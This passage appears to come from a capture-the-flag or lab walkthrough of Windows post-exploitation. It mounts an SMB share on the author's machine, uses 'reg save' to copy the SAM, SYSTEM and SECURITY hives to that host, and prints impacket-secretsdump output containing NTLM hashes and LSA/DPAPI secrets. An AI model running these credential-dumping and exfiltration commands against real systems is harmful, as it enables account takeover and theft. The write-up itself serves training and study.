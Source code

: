```powershell
PS C:\windows\system32> net use \\10.10.14.31\share /u:beep boop

net use \\10.10.14.31\share /u:beep boop
The command completed successfully.
```

With `reg save` we can dump the contents of the 3 hives we need and write them directly to our SMB share.

```powershell
PS C:\windows\system32> reg save HKLM\sam \\10.10.14.31\share\sam
reg save HKLM\sam \\10.10.14.31\share\sam
The operation completed successfully.

PS C:\windows\system32> reg save HKLM\system \\10.10.14.31\share\system
reg save HKLM\system \\10.10.14.31\share\system
The operation completed successfully.

PS C:\windows\system32> reg save HKLM\security \\10.10.14.31\share\security
reg save HKLM\security \\10.10.14.31\share\security
The operation completed successfully.
```

All files should now be available from the folder where we exposed our SMB server. With secretsdump from impacket we can dump all hashes and copy them into a file so we can try to crack some of them.

```sh
$ impacket-secretsdump -sam sam -security security -system system LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0xdc2beb4869328393b57ea9a28aeff84932c3e3ef
dpapi_userkey:0x6760a0b981e854b66007b33962764d5043f3d013
[*] NL$KM
 0000   14 07 22 73 99 42 B0 ED  F5 11 9A 60 FD A1 10 EF   .."s.B.....`....
 0010   DF 19 3C 6C 22 F2 92 0C  34 B1 6D 78 CC A7 0D 14   ..<l"...4.mx....
 0020   02 7B 81 04 1E F6 1C 66  69 75 69 84 A7 31 53 26   .{.....fiui..1S&
 0030   A3 6B A9 C9 BF 18 A8 EF  10 36 DB C2 CC 27 73 3D   .k.......6...'s=
NL$KM:140722739942b0edf5119a60fda110efdf193c6c22f2920c34b16d78cca70d14027b81041ef61c6669756984a7315326a36ba9c9bf18a8ef1036dbc2cc27733d
[*] Cleaning up...
```
